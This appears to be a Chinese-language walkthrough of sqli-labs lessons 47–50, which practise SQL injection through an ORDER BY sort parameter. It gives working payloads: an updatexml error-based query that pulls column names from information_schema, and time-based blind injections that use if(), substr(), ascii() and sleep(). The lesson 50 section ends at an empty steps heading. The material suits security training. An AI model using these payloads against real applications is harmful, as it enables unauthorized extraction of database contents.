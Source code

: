 
## 步骤
由于是字符型的，采用单引号闭合，其余步骤同上

样例payload：

`?sort=1' and updatexml(1,concat(0x7c,(select group_concat(column_name) from information_schema.columns where table_name='users'%20 ),0x7c),1) --+`
***
# less 48(ORDER BY注入数字型盲注)
## 原理

没有报错信息了，需要进行盲注

需要用到那几个熟悉函数

length(),left(),substr(0,0,0),ascii(),还有if(),sleep()
## 步骤

这一题使用延时盲注解决

获取长度

1 and if(length(database())=8,sleep(5),0)--+

获取值

1 and If(ascii(substr(database(),1,1))=114,0,sleep (5))--+

***
# less 49(ORDER BY盲注)

## 步骤

获取长度
1 and if(length(database())=8,sleep(5),0)--+
获取值
1 and If(ascii(substr(database(),1,1))=114,0,sleep (5))--+

***
# less 50(基于报错的ORDER BY堆叠注入)
## 原理

还是盲注，有错误提醒，也可以报错注入，还要结合堆叠注入

## 步骤

